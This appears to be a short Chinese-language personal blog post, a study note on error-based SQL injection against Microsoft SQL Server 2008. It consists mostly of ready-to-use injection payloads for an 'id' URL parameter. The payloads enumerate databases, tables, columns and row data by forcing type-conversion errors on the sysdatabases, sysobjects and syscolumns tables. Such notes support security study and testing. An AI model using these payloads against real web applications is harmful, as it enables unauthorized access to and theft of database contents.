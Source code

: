 ```yaml
---
title: "MSSQL 显错注入"
date: 2018-01-15T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['mssql','sqli']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


MSSQL 显错注入

<!--more-->

听说 mssql 不同版本的注入语句不同 这里的版本是 mssql 2008.

`db_name() 当前数据库`

`user 当前用户`

`@@version 版本`


**爆库语句**

`id=1 and (select name from master.dbo.sysdatabases where dbid=1)>0`

master.dbo.sysdatabases == master..sysdatabases

**爆表语句**

`id=1 and (select top 1 cast(name as varchar(100))%2b'^'%2bcast(id as varchar(100)) from 数据库.dbo.sysobjects where xtype='U')>0`

**暴列语句**

`id=1 and (select top 1 name from 数据库.dbo.syscolumns where id=id)>0`

**爆数据语句**

`id=1 and (select top 1 cast(列名1 as varchar(100))%2b'^'%2bcast(列名2 as varchar(100)) from 数据库.dbo.表名)>0`

同数据库的话可以直接 from 表名.